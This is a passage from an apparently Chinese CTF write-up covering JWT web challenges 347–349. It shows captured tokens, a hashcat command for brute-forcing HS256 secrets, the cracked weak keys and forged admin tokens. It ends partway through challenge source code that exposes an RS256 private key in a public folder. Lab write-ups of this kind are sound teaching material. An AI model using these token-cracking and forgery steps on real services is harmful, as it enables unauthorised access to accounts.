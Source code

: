 重放，得到flag



### web347

启动靶机，进入环境。一个熟悉的where is flag?

然后又是/admin，抓包

Cookie:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTY5NjMyMTQ4OCwiZXhwIjoxNjk2MzI4Njg4LCJuYmYiOjE2OTYzMjE0ODgsInN1YiI6InVzZXIiLCJqdGkiOiJmZjczMGQ5Yjc5YTEyZWY5NTI2OTgyZjYxZDkxYjRiZCJ9.R_0R8ShiZNQNNle6H4s_prdGLLNJjbYm5YyenY7CJww
```

分析后得到HS256&Need Signature,所以得爆破密码。

```
hashcat -a 0 -m 16500
```

密钥为 123456

payload:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTY5NjMyMTQ4OCwiZXhwIjoxNjk2MzI4Njg4LCJuYmYiOjE2OTYzMjE0ODgsInN1YiI6ImFkbWluIiwianRpIjoiZmY3MzBkOWI3OWExMmVmOTUyNjk4MmY2MWQ5MWI0YmQifQ.9F9km5a71C0Pt-R-4EXMnCI_ot6WHut1kmS4ZR7Lf1U
```

拿到flag



### web348

同web347，继续爆破，得到密码为aaab

payload:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTY5NjMyMjQ1MiwiZXhwIjoxNjk2MzI5NjUyLCJuYmYiOjE2OTYzMjI0NTIsInN1YiI6ImFkbWluIiwianRpIjoiOGU0NDVlZTY4NzcyZmUzZjI1ZmFkNjllODE0MWZlOTcifQ.sjuE3NvuibTvFJa8p9HcGo_MZt5eaIxCm94RnbydWTg
```



### web349

附件：

```
/* GET home page. */
router.get('/', function(req, res, next) {
  res.type('html');
  var privateKey = fs.readFileSync(process.cwd()+'//public//private.key');
  var token = jwt.sign({ user: 'user' }, privateKey, { algorithm: 'RS256' });
  res.cookie('auth',token);
  res.end('where is flag?');
  
});

router.post('/',function(req,res,next){
	var flag="flag_here";
	res.type('html');
	var auth = req.cookies.auth;
	var cert = fs.readFileSync(process.cwd()+'//public/public.key');  // get public key
	jwt.verify(auth, cert, function(err, decoded) {
	  if(decoded.user==='admin'){
```